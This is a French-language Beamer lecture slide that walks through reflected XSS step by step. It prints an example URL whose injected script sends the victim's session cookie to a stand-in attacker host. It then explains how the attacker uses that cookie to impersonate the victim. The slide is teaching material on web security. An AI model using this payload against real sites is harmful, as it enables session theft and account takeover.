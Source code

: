 \documentclass{beamer}
\def\emptyline{\vspace{10pt}}
\begin{document}
\begin{frame}[fragile]
\frametitle{XSS réfléchi -- Exploitation pas-à-pas}

\textbf{1.} L'attaquant fabrique une URL piégée :
\begin{lstlisting}[basicstyle=\ttfamily\tiny,breaklines=true,frame=single]
http://site.com/search.php?q=<script>
  new Image().src='http://pirat.es/steal?c='+document.cookie;
</script>
\end{lstlisting}

\textbf{2.} Il envoie ce lien à la victime (email, message, réseau social).

\textbf{3.} La victime clique $\rightarrow$ le serveur renvoie la page avec le script.

\textbf{4.} Le navigateur exécute le script :
\begin{itemize}
\item Le \alert{cookie de session} est envoyé au serveur de l'attaquant.
\item L'attaquant peut usurper l'identité de la victime.
\end{itemize}

\emptyline
\begin{alertblock}{À retenir}
La victime ne voit qu'une page de recherche normale -- l'attaque est \textbf{invisible}.
\end{alertblock}
\end{frame}


\subsection{XSS stocké (Stored XSS)}
\end{document}
